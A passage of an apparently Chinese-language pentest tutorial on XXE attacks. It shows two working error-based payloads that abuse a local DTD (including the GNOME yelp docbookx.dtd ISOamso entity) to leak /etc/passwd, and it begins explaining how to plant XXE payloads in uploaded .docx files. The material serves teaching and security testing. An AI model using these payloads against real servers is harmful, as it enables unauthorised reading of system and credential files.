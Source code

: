 ```xml-dtd
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```

在上述代码的执行过程中发生了以下事情：

- 定义一个名为local_dtd的XML参数实体，其中包含服务器文件系统上已存在的外部dtd文件的内容。
- 重新定义名为custom_entity的XML参数实体，该实体已在外部DTD文件中定义。实体被重新定义为包含已描述的，用于触发包含/etc/passwd文件内容的错误消息。
- 由于local_dtd实体的使用，外部dtd被覆盖，包括custom_entity实体的新值。这将产生所需的错误消息。
  （实际上，使用有GNOME桌面环境的系统通常在/usr/share/yelp/DTD/docbookx.dtd文件里面有一个名为ISOamso的实体。）

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

![img](XXE.assets/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M5MUTcJhMM63Gk3J-i9%2F-M5Mpd6wV0MY5cbvPQRB%2Fimage.png)

由于此技术使用了内部的DTD，您需要首先找到一个可以用的DTD。可以试试安装一个一样的操作系统和相关软件来浮现上面这个过程。

### Office Open XML解析器实现 XXE

许多web应用程序允许您上载Microsoft Office文档，然后从中解析一些详细信息。例如，您可能有一个web应用程序，允许您通过上传XLSX格式的电子表格来导入数据。有时，为了让解析器从电子表格中提取数据，解析器需要解析至少一个XML文件。

对此进行测试的方法是生成一个包含XXE payload的Microsoft Office文件，实现的步骤很简单。首先，创建一个空目录来解压缩文档，然后解压缩！

```bash
test$ ls
test.docx
test$ mkdir unzipped
test$ unzip ./test.docx -d ./unzipped/
Archive:  ./test.docx
  inflating: ./unzipped/word/numbering.xml
  inflating: ./unzipped/word/settings.xml
  inflating: ./unzipped/word/fontTable.xml
  inflating: ./unzipped/word/styles.xml
  inflating: ./unzipped/word/document.xml
  inflating: ./unzipped/word/_rels/document.xml.rels
  inflating: ./unzipped/_rels/.rels
  inflating: ./unzipped/word/theme/theme1.xml
  inflating: ./unzipped/[Content_Types].xml
```
